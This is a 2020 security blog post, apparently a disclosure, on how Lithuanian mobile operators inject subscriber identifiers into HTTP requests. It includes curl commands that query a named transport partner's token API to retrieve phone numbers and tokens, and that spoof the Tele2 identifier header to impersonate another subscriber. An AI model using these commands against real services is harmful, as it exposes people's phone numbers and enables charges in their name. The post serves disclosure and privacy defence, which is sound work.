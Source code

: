 ```yaml
---
author:     Anonymous (Discovery) & Jaroslav Lobačevski (The article)
profileimage: anonymous.jpg
layout:     post
title:      "Privacy leaks in mobile internet era"
date:       2020-03-03 12:00:00
categories: HackAndTell MobileInternet
cover:      
permalink:  /en/blog/mobile-data-leak
---
```

> tl;dr: Ignorance of security issues by mobile operator partners leaks your phone number to malicious websites. Misconfigurations of mobile operators allow tracking you worldwide.  
Try it yourself - [Proof of Concept](/en/blog/mobile-data-leak#proof-of-concept).

It all starts from curiosity... Have you ever seen a mobile app asking you to turn off WIFI and switch to mobile internet in order to use it?  
There are at least few of them in Lithuania that offer login-less service if you are connected to the mobile internet:

* [m.Ticket](https://play.google.com/store/apps/details?id=lt.sisp.itero.ticket.client&hl=en) - 
An app that allows you to buy public bus tickets using your phone.
* [m.Parking](https://play.google.com/store/apps/details?id=lt.sisp.itero.parking.client&hl=en) - 
An app for paying for city parking using your phone. The parking fee is added to your phone bill.
* [Mobile wallet MoQ](https://play.google.com/store/apps/details?id=lt.momo.app&hl=en) - 
An app for online payments, paying in-store and transferring money.

### How does it work?

It may sound crazy, but the mobile operator injects your identity into the outgoing HTTP request. Officially it is called HTTP Header Enrichment. When a third-party web server receives your request it already contains what is needed to identify the mobile user in a special HTTP header.

Let's check if that is true. First of all we need a server that would reflect back all HTTP headers it received from your browser. It is easy to write one by your own, but since we are lazy we'll use an already [existing one](http://postman-echo.com).

Connect a computer to your mobile device hotspot. Start a shell (command line) and run [curl](https://curl.haxx.se/) with the following arguments:
```
curl http://postman-echo.com/get
```
It returns the following response if you are not Tele2 user (showing just the important part):
```json
"headers": {
  "x-forwarded-proto": "https",
  "host": "postman-echo.com",
  "accept": "*/*",
  "user-agent": "curl/7.55.1",
  "x-forwarded-port": "80"
}
```
Nothing is suspicious here. This is because if configured correctly mobile operators inject headers only in a web request to white-listed partners. But not in Tele2 Lithuania case! It injects `"x-tele2-subid: 10.■■■.■■■.■■■` to **any unencrypted HTTP request**!

You may not see where the issue is... Yet it provides a [super cookie](https://en.wikipedia.org/wiki/HTTP_cookie#Other_uses) for any web site in the world. No matter if you switch the browser, clean cookies, use incognito mode - it uniquely identifies you as the same user. While you may share the same header with other Tele2 users nearby (something to be proved) it still gives a lot of information for a web sites to track you.

Let's switch our mobile provider and spoof the requested web site:
```
curl http://postman-echo.com/get --header "Host: mtis2.m-transportas.lt"
```
If correctly configured on mobile provider side the headers should not be injected because IP address of the request (the receiver is postman-echo.com) and the host name (mtis2.m-transportas.lt) doesn't match. However the following headers are injected in Bite case:
```
"bite-account-country": "LT",
"bite-account-id": "152■■■■■",
"bite-account-language": "LT",
"bite-account-type": "PREPAID",
"x-forwarded-server": "wap.bite.lt",
```
In Telia case:
```
"x-et-user-identity": "S9zdh■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■KUn3M"
```
### Things get worse. Partners come into play.
The host name we used above belongs to one of the white-listed partners. The company has created a web service that returns back a phone number among other things when a request from a mobile internet user is received. Let's try it:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider"
```
The response:
```
{
  "userName": "3706■■■■■■■",
  "userType": 3,
  "client_id": "mticket",
  "access_token": "ey■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■Ck",
  "expires_in": 900,
  "refresh_token": "9c■■■■■■■■■■■■■■■■■■■■■■8d",
  "refresh_token_expires_in": 604800,
  "ticketInspectorGroupId": 0,
  "ticketInspectorLeader": false,
  "client_owner_code": null,
  "notifications": [
  ]
}
```
The service is public and the first line leaks your phone number. How could it be exploited?  
A malicious web page may run a javascript that calls mtis2.m-transportas.lt on your behalf. But if your provider is Tele2 it is even worse: `x-tele2-subid` gets injected into all unencrypted web site requests. So a malicious site may call mtis2.m-transportas.lt with the leaked `x-tele2-subid` and retrieve the phone number on the server side. This way it is impossible to detect the abuse from the client!
### Proof of concept:
Works with any Lithuanian mobile provider. Turn off WIFI and click on the link in your mobile device. (*Update 2020-04-02: The owner of m-transportas.lt SĮ „Susisiekimo paslaugos” updated the web service to break the PoC and assured on 2020-03-09 that they will make "architectural" changes in 1.5 month to mitigate the security issue.*)
[http://www.devsecurity.eu/mobile-data-leak/](http://www.devsecurity.eu/mobile-data-leak/)

[![Screenshot](mobile-data-leak-poc.png "Screenshot")](mobile-data-leak-poc.png)

### Does the injected header prove anything?
So these white-listed partners make security sensitive decisions based on a presence of a header. Let's try spoofing the identity. This time switch to WIFI and run the following command:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider" --header "x-tele2-subid: {your id from previous runs incremented by one}"
```
You will receive the token id for a user with completely different phone number! The service got fooled even though we connected not from a mobile network. While possibly there is no threat in someone spoofing your identity to buy you tickets, you wouldn't like to get a bill in the end of a month for a parking or mobile payments (up to 50 Eur?) you didn't do. The presence of the special headers cannot be used to prove your identity.

### Conclusions
The HTTP Header Enrichment is an ancient technique from the dark ages of internet when most of the traffic was unencrypted (related risks were even published in [2010 by Collin Mulliner](http://www.mulliner.org/security/feed/random_tales_mobile_hacker.pdf)). It should be abandoned as insecure and violating users' privacy. Meanwhile you have the options:
* Do not use mobile internet.
* If using mobile internet from a laptop browser, install HTTPS Everywhere extension.
* Always use VPN.
